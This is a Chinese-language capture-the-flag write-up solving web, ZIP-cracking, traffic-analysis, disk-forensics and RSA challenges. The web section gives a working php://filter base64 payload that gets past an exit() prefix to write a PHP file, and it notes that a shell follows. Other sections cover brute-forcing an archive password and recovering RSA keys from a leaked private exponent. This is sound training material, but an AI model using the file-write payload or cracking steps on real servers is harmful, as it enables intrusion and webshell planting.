# Web

## 签到

略

---

## php审计

```php
<?php
$content = '<?php exit(0);?>';
$content .= @$_POST['code'];
$filename = @$_POST['filename'];
if (isset($filename)){
	file_put_contents($filename, $content);
}else{
	echo "今天天气不错";
}
?>
```

通过 base64 绕过 `<?php exit(0);?>`

```
code=PD9waHAgcGhwaW5mbygpID8+&filename=php://filter/write=convert.base64-decode/resource=1.php
```





接下来直接写shell即可

---

# Misc

## 压缩包

打开zip文件 查看注释，发现密码为6位数字



使用软件爆破，密码是 732654


解压出来一个 111.zip 和一个 trips.txt

用winrar修复即可打开111.zip




查看 sh 内容发现 压缩包密码是时间戳



查看压缩包时间



构造时间戳字典



爆破



查看flag



key:F8CA0E5735CB2E6F

---

## 流量分析

直接解压得到流量包



过滤仅http



过滤http流量  ，然后   文件 》导出分组解析结果 》为CSV      保存为 123.txt



用 notepad++  打开 123.txt，可以看到语句语句中还是夹杂着很多的 urlcode



Ctrl+A 全选  , 然后   插件 》MIME Tools  》 url decode ，这样就把 URLcode 转为更直观的 ascii 了



这个其实就是用二分法 进行 sql 盲注



前面代表是测试第几个 字符 后面代表 与当前测试的字符的 ascii 值 相比较的值

手动分析得出flag

```
1=107   k
2=101   e
3=121   y
4=58    :
5=97    a
6=52    4
7=54    6
8=100   d
9=99    c
10=55   7
11=56   8
12=100  d
13=48   0
14=55   7
15=57   9
16=56   8
17=99   c
18=56   8
19=51   3
  =52   4
20=52   4
```

key:a46dc78d0798c844

---

## vmdk取证

直接用 R-Studio 打开vmdk文件，其中一个 txt 的内容 base64解一下就是flag





---

# Crypto

## RSA1

```
XH想要给YF发送一个重要文件，为了不被他人窃取到，XH向YF索要了他的公钥文件信息。
YF将他现在使用的公钥发送给了XH：
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQC0XAw5rV1kqGzeJ1SDB5pTkgO9
RSBgCPm0l5DtdXUDGIJ3dbVC6TOQUHSNFrJPB6AeaSqagyfQCVSUv2EzO/3PLvox
b7hxazHIA2eMZiM3sHcIV9RTdx9pJorDUSB2fV9cnQUiK2smr8X1dt9RCmygpSCf
Ny0ZUYq3DfP/HuErmQIDAQAB
-----END PUBLIC KEY-----
XH用公钥对这个重要的文件进行了加密，然后将密文文件发送给YF：
UtowVjnLpRLTx2oBQlLKDP5cSfvXsz5RB/zO7nqfT6V3wgyK04JOXppCCY/p55rONh2+AZ7NAm3wvu4UwKwZxnw7qtRDSRL6bGZISyrJnyjEXfZHcOSf5BNcjQkJQYRbfN85Z3Ycg+84ABdF+jP7ekQaYikp2duqCoFBJYQcOWw=
但是XH没想到HZ那居然存有YF一组以前用过的私钥信息{n,e,d}：
{126652791247329858012081502617335427176078480967667235544422134698198761482081791188813953951941166617081546172312960216751960777234759603468040766428093969369837780011477003514642408424390144176644572101310535367720328881391192872513206457534291258525724324556727750428833407076738446023533405981578792872857,11666173,78440145437642026565505218176077635100043568658968467746538509828225145179636090827892006864282536091633117590477854513613339188289472952126032503980856086589942743747087799102224535294351908895347839402204845161252154330813186873353157721693911405483196449338177610947843869107506937519564559825768669662629}
就这样，XH发送的文件泄露了。
XH发送给YF的信息即为key文件信息。
```

```py
# coding=utf-8
import random
import libnum

d = 78440145437642026565505218176077635100043568658968467746538509828225145179636090827892006864282536091633117590477854513613339188289472952126032503980856086589942743747087799102224535294351908895347839402204845161252154330813186873353157721693911405483196449338177610947843869107506937519564559825768669662629
e = 11666173
n = 126652791247329858012081502617335427176078480967667235544422134698198761482081791188813953951941166617081546172312960216751960777234759603468040766428093969369837780011477003514642408424390144176644572101310535367720328881391192872513206457534291258525724324556727750428833407076738446023533405981578792872857

k = e * d - 1

r = k
t = 0
while True:
    r = r // 2
    t += 1
    if r % 2 == 1:
        break

success = False

for i in range(1, 101):
    g = random.randint(0, n)
    y = pow(g, r, n)
    if y == 1 or y == n - 1:
        continue

    for j in range(1, t):
        x = pow(y, 2, n)
        if x == 1:
            success = True
            break
        elif x == n - 1:
            continue
        else:
            y = x

    if success:
        break
    else:
        continue

if success:
    p = libnum.gcd(y - 1, n)
    q = n // p
    print('P: ' + '%s' % p)
    print('Q: ' + '%s' % q)
else:
    print('Cannot compute P and Q')
```

```py
from Crypto.Util.number import *
import gmpy2

c=0x52da305639cba512d3c76a014252ca0cfe5c49fbd7b33e5107fcceee7a9f4fa577c20c8ad3824e5e9a42098fe9e79ace361dbe019ecd026df0beee14c0ac19c67c3baad4434912fa6c66484b2ac99f28c45df64770e49fe4135c8d090941845b7cdf3967761c83ef38001745fa33fb7a441a622929d9dbaa0a814125841c396c
e=65537
p=9626976998826419276843416143425596889733974434851882744368169052238235836115584054010100532560561818209484869817186516716761718401370275591484387689682663
q=13156029277183223805880847083808239023127130161857296889657452481663176035839817652134147518151213582890894140345326262383715549586968078944271185038023039
d=72222837702293535768001433019745480940909791273992705292676564657233076187624711236528298321435910688825725064493033694255981783829248148386523941024928314873171902399507717591254570081837629624858628871549140866333768191888355910619817655799523654014573134778364308643953515513914429171468097991764936866609

n=p*q
d=gmpy2.invert(e,(q-1)*(p-1))

print(pow(c, d, n))
print(long_to_bytes(pow(c, d, n)))
```

key:12e791ac27df4c99

## RSA2

```py
# -*- coding: utf-8 -*-
from Crypto.Util import number
import random
import gmpy2
from Crypto.Util.number import *
from secret import key

N = 21950613536281390486175757463951027643556662621824579929664918617520636813458994325720569579695736856079459340474316751889021883755540017377473409564797843019125596929359598746535191841338208989879009508321774759757392464348925062704618198548398309908878380041795632951630513476281083426748653263731919122841901104123145297521411331174923397782111024006706017326210374498919922250769088886696170966869394222786903527353128540253585182758832324462426318387914150570168191590734053846371944717431858873198597415498765665035309188308408227521317670668417094970551798085092238594309838065757300622761550073415879726501051
e = 0x10001

m = number.bytes_to_long(key)

with open('key.enc', 'w') as f:
    while m:
        p = getPrime(8)
        padding = random.randint(0, 2**1000) ** 2
        message = padding << m**(p-1) % p + m % 2
        cipher = pow(message, e, N)
        f.write(hex(cipher)+'\n')
        m /= 2
```

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import gmpy2

N = 21950613536281390486175757463951027643556662621824579929664918617520636813458994325720569579695736856079459340474316751889021883755540017377473409564797843019125596929359598746535191841338208989879009508321774759757392464348925062704618198548398309908878380041795632951630513476281083426748653263731919122841901104123145297521411331174923397782111024006706017326210374498919922250769088886696170966869394222786903527353128540253585182758832324462426318387914150570168191590734053846371944717431858873198597415498765665035309188308408227521317670668417094970551798085092238594309838065757300622761550073415879726501051
e = 0x10001
invert2 = pow(gmpy2.invert(2,N),e,N)

with open('key.enc', 'r') as f:
    l = f.read().split("\n")

byte = ""
flag = ""
for c in l:
    if len(c) > 2:
        c = int(c[2:-1], 16)
        if gmpy2.jacobi(c * invert2, N) == -1:
            byte = "1" + byte
        else:
            byte = "0" + byte

        if len(byte) == 8:
            flag = chr(int(byte, 2)) + flag
            byte = ""

flag = chr(int(byte, 2)) + flag
print(flag)
```

key:fe1c083f47ab4664
